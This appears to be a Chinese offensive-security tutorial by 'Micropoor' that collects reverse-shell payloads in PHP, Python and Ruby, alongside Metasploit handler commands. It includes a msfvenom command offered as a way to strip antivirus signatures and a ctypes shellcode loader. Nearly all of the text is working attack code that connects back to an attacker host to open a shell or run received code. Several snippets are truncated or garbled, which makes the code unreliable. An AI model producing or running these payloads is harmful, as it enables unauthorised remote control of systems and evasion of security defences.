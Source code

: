 在实战中可能会遇到各种诉求 payload，并且可能遇到各种实际问题，如杀毒软件，防火墙拦截，特定端口通道，隧道等问题。这里我们根据第十课补充其中部分，其他内容后续补充。

这次主要补充了 PHP，python，ruby。

ps:在线代码高亮：http://tool.oschina.net/highlight

### 1、php-payload
```bash
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp 
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set LHOST 192.168.1.107
LHOST => 192.168.1.107
```
```php
<?
php error_reporting(0); $ip = 'x.x.x.x'; $port = 53; if (($f = 'stream_socket_client') && is_callable($f)) { 
{$port}"); $s_type = 'stream'; } if (!$s && ($f = 'fsockopen') && is_callable($f)) { $s = $f($ip, $port); $s_ 
strlen($b)); break; case 'socket': $b .= socket_read($s, $len-strlen($b)); break; } } $GLOBALS['msgsock'] = $s;
$GLOBALS['msgsock_type'] = $s_type; if (extension_loaded('s 
>
```
![](/img/c62949c5cacf6d6a5605200311aa5b9a.jpg)

```php
<?php
$sock=fsockopen("xx.xx.xx.xx",xx);exec("/bin/sh -i <&3 >&3 2>&3"); 
?>
```
![](/img/107730c867318d074cc21b9b490d8e8d.jpg)

### 2、python-payload
```bash
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp 
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set LHOST 192.168.1.107
LHOST => 192.168.1.107
```
```python
import socket,struct,time 
for x in range(10):
    try:
        s=socket.socket(2,socket.SOCK_STREAM)
        s.connect(('x.x.x.x',xx)) 
        break
    except:
        time.sleep(5) l=struct.unpack('>I',s.recv(4))[0] 
d=s.recv(l)
while len(d)<l: 
    d+=s.recv(l-len(d))
exec(d,{'s':s})
```  
![](/img/56fa0d76a0ef5b598d14f8a67de449b7.jpg)

```python
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("xx.xx.xx.xx",xx));
i"]);
```  
![](/img/268f5cbb31121e9d7f37909587296e7a.jpg)

```python
import socket import subprocess

s=socket.socket()
s.connect(("xx.xx.xx.xx",xx)) while 1:
p = subprocess.Popen(s.recv(1024), shell=True,stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subpro s.send(p.stdout.read() + p.stderr.read())
```
![](/img/710a81ff2c29a516aa878760e1fbd110.jpg)

删除特征：
```bash
root@John:~# msfvenom -p windows/meterpreter/reverse_tcp LHOST=8.8.8.8 LPORT=88 -f c | tr -d '"' | tr -d '\n'
```
![](/img/34aeea621a28e0377b370eda4a63aaa2.jpg)

```python
from ctypes import *

reverse_shell = "\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72
micropoorshell = create_string_buffer(reverse_shell, len(reverse_shell))
shellcode = cast(micropoorshell, CFUNCTYPE(c_void_p))
shellcode()
```

### 2、ruby-payload
```ruby
require 'socket';c=TCPSocket.new("xx.xx.xx.xx", x);$stdin.reopen(c);$stdout.reopen(c);$stderr.reopen(c);$stdi
(IO.popen(l,"rb"){|fd| fd.each_line {|o| c.puts(o.strip) }}) rescue nil}
```
![](/img/5253458a976fd4e0212059638751245b.jpg)

```ruby
require 'socket';f=TCPSocket.open("xx.xx.xx.xx",xx).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)
```
![](/img/b9032b829c6a977288c32948088801b6.jpg)

```ruby
require 'socket';c=TCPSocket.new("xx.xx.xx.xx","xx");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end  
```
![](/img/cdb7a522f8eb1facc72265a923ef173e.jpg)

```ruby
c=TCPSocket.new("xx.xx.xx.xx","xx");while(cmd=c.gets);IO.popen(cmd,"r"){\|io\|c.print
io.read}end
```
![](/img/9246e2313d4cbcb3c4dacced7c25e0c1.jpg)

>   Micropoor
